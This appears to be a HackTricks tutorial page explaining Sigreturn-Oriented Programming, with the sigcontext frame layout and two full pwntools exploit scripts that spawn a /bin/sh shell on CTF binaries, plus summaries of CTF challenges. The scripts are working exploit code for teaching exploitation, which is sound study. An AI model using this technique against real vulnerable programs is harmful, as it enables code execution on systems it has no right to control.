 # SROP - Sigreturn-Oriented Programming

{{#include ../../../banners/hacktricks-training.md}}

## Basic Information

**`Sigreturn`** is a special **syscall** that's primarily used to clean up after a signal handler has completed its execution. Signals are interruptions sent to a program by the operating system, often to indicate that some exceptional situation has occurred. When a program receives a signal, it temporarily pauses its current work to handle the signal with a **signal handler**, a special function designed to deal with signals.

After the signal handler finishes, the program needs to **resume its previous state** as if nothing happened. This is where **`sigreturn`** comes into play. It helps the program to **return from the signal handler** and restores the program's state by cleaning up the stack frame (the section of memory that stores function calls and local variables) that was used by the signal handler.

The interesting part is how **`sigreturn`** restores the program's state: it does so by storing **all the CPU's register values on the stack.** When the signal is no longer blocked, **`sigreturn` pops these values off the stack**, effectively resetting the CPU's registers to their state before the signal was handled. This includes the stack pointer register (RSP), which points to the current top of the stack.

> [!CAUTION]
> Calling the syscall **`sigreturn`** from a ROP chain and **adding the registry values** we would like it to load in the **stack** it's possible to **control** all the register values and therefore **call** for example the syscall `execve` with `/bin/sh`.

Note how this would be a **type of Ret2syscall** that makes much easier to control params to call other Ret2syscalls:

{{#ref}}
../rop-syscall-execv/
{{#endref}}

If you are curious this is the **sigcontext structure** stored in the stack to later recover the values (diagram from [**here**](https://guyinatuxedo.github.io/16-srop/backdoor_funsignals/index.html)):

```
+--------------------+--------------------+
| rt_sigeturn()      | uc_flags           |
+--------------------+--------------------+
| &uc                | uc_stack.ss_sp     |
+--------------------+--------------------+
| uc_stack.ss_flags  | uc.stack.ss_size   |
+--------------------+--------------------+
| r8                 | r9                 |
+--------------------+--------------------+
| r10                | r11                |
+--------------------+--------------------+
| r12                | r13                |
+--------------------+--------------------+
| r14                | r15                |
+--------------------+--------------------+
| rdi                | rsi                |
+--------------------+--------------------+
| rbp                | rbx                |
+--------------------+--------------------+
| rdx                | rax                |
+--------------------+--------------------+
| rcx                | rsp                |
+--------------------+--------------------+
| rip                | eflags             |
+--------------------+--------------------+
| cs / gs / fs       | err                |
+--------------------+--------------------+
| trapno             | oldmask (unused)   |
+--------------------+--------------------+
| cr2 (segfault addr)| &fpstate           |
+--------------------+--------------------+
| __reserved         | sigmask            |
+--------------------+--------------------+
```

For a better explanation check also:

{{#ref}}
https://youtu.be/ADULSwnQs-s?feature=shared
{{#endref}}

## Example

You can [**find an example here**](https://ir0nstone.gitbook.io/notes/types/stack/syscalls/sigreturn-oriented-programming-srop/using-srop) where the call to signeturn is constructed via ROP (putting in rxa the value `0xf`), although this is the final exploit from there:

```python
from pwn import *

elf = context.binary = ELF('./vuln', checksec=False)
p = process()

BINSH = elf.address + 0x1250
POP_RAX = 0x41018
SYSCALL_RET = 0x41015

frame = SigreturnFrame()
frame.rax = 0x3b            # syscall number for execve
frame.rdi = BINSH           # pointer to /bin/sh
frame.rsi = 0x0             # NULL
frame.rdx = 0x0             # NULL
frame.rip = SYSCALL_RET

payload = b'A' * 8
payload += p64(POP_RAX)
payload += p64(0xf)         # 0xf is the number of the syscall sigreturn
payload += p64(SYSCALL_RET)
payload += bytes(frame)

p.sendline(payload)
p.interactive()
```

Check also the [**exploit from here**](https://guyinatuxedo.github.io/16-srop/csaw19_smallboi/index.html) where the binary was already calling `sigreturn` and therefore it's not needed to build that with a **ROP**:

```python
from pwn import *

# Establish the target
target = process("./small_boi")
#gdb.attach(target, gdbscript = 'b *0x40017c')
#target = remote("pwn.chal.csaw.io", 1002)

# Establish the target architecture
context.arch = "amd64"

# Establish the address of the sigreturn function
sigreturn = p64(0x40017c)

# Start making our sigreturn frame
frame = SigreturnFrame()

frame.rip = 0x400185 # Syscall instruction
frame.rax = 59       # execve syscall
frame.rdi = 0x4001ca # Address of "/bin/sh"
frame.rsi = 0x0      # NULL
frame.rdx = 0x0      # NULL

payload = "0"*0x28 # Offset to return address
payload += sigreturn # Function with sigreturn
payload += str(frame)[8:] # Our sigreturn frame, adjusted for the 8 byte return shift of the stack

target.sendline(payload) # Send the target payload

# Drop to an interactive shell
target.interactive()
```

## Other Examples & References

- [https://youtu.be/ADULSwnQs-s?feature=shared](https://youtu.be/ADULSwnQs-s?feature=shared)
- [https://ir0nstone.gitbook.io/notes/types/stack/syscalls/sigreturn-oriented-programming-srop](https://ir0nstone.gitbook.io/notes/types/stack/syscalls/sigreturn-oriented-programming-srop)
- [https://guyinatuxedo.github.io/16-srop/backdoor_funsignals/index.html](https://guyinatuxedo.github.io/16-srop/backdoor_funsignals/index.html)
  - Assembly binary that allows to **write to the stack** and then calls the **`sigreturn`** syscall. It's possible to write on the stack a [**ret2syscall**](../rop-syscall-execv/) via a **sigreturn** structure and read the flag which is inside the memory of the binary.
- [https://guyinatuxedo.github.io/16-srop/csaw19_smallboi/index.html](https://guyinatuxedo.github.io/16-srop/csaw19_smallboi/index.html)
  - Assembly binary that allows to **write to the stack** and then calls the **`sigreturn`** syscall. It's possible to write on the stack a [**ret2syscall**](../rop-syscall-execv/) via a **sigreturn** structure (the binary has the string `/bin/sh`).
- [https://guyinatuxedo.github.io/16-srop/inctf17_stupidrop/index.html](https://guyinatuxedo.github.io/16-srop/inctf17_stupidrop/index.html)
  - 64 bits, no relro, no canary, nx, no pie. Simple buffer overflow abusing `gets` function with lack of gadgets that performs a [**ret2syscall**](../rop-syscall-execv/). The ROP chain writes `/bin/sh` in the `.bss` by calling gets again, it abuses the **`alarm`** function to set eax to `0xf` to call a **SROP** and execute a shell.
- [https://guyinatuxedo.github.io/16-srop/swamp19_syscaller/index.html](https://guyinatuxedo.github.io/16-srop/swamp19_syscaller/index.html)
  - 64 bits assembly program, no relro, no canary, nx, no pie. The flow allows to write in the stack, control several registers, and call a syscall and then it calls `exit`. The selected syscall is a `sigreturn` that will set registries and move `eip` to call a previous syscall instruction and run `memprotect` to set the binary space to `rwx` and set the ESP in the binary space. Following the flow, the program will call read intro ESP again, but in this case ESP will be pointing to the next intruction so passing a shellcode will write it as the next instruction and execute it.
- [https://www.ctfrecipes.com/pwn/stack-exploitation/arbitrary-code-execution/code-reuse-attack/sigreturn-oriented-programming-srop#disable-stack-protection](https://www.ctfrecipes.com/pwn/stack-exploitation/arbitrary-code-execution/code-reuse-attack/sigreturn-oriented-programming-srop#disable-stack-protection)
  - SROP is used to give execution privileges (memprotect) to the place where a shellcode was placed.

{{#include ../../../banners/hacktricks-training.md}}

